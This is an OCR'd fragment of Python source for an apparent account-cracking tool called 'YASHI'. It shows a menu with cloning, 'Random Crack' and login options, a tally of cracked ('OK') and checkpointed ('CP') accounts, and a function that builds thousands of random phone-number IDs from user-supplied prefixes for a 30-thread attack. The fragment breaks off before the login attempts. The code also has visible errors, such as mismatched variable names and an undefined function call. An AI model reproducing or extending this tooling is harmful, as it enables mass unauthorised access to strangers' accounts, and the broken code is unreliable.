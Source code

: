     os.system("clear")
    print(logo)    
    
def result(OKs,cps):
    if len(OKs) != 0 or len(cps) != 0:
        print('\n')
        print(47*'-')
        print(' The Process has been Complete...')
        print(' TOTAL OK: %s' % str(len(oks)))
        print(' TOTAL CP: %s' % str(len(cps)))
        print(47*'-')
        input("Press enter to back YASHI Menu ")
        exit()
def yashi():   
    os.system('clear')
    print(logo)
    print(f'[1] File Cloning')
    print(f'[2] Public Cloning')
    print(f'[3] Random Crack ')
    print(f'[4] Create File')
    print(f'[5] Login Tool')
    print(f'[6] Logout Cookie')
    print(f'[7] Remove Trash Files ')
    print(f'[8] Separate Ids')
    print(f'[9] Remove Duplicate IDs')
    
    print('')
    select = input('Select Menu>: ')
    if select =='1':
        method_crack()
    elif select =='2':
        exit(' This is Option Soon available ... ')
    elif select =='3':
        bd()
    elif select =='4':
       menu()
    elif select =='5':
       login()
    elif select =='6':
       remove_Tc()
    elif select =='7':
       removef()
    elif select =='8':
       sids()
    elif select =='9':
       cutter()
    
    else:
        print('\n Select valid option ... ')
        time.sleep(2)
        YASHI(allkey)

def bd():
                user=[]
                clear()
                print('\033[1;31m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
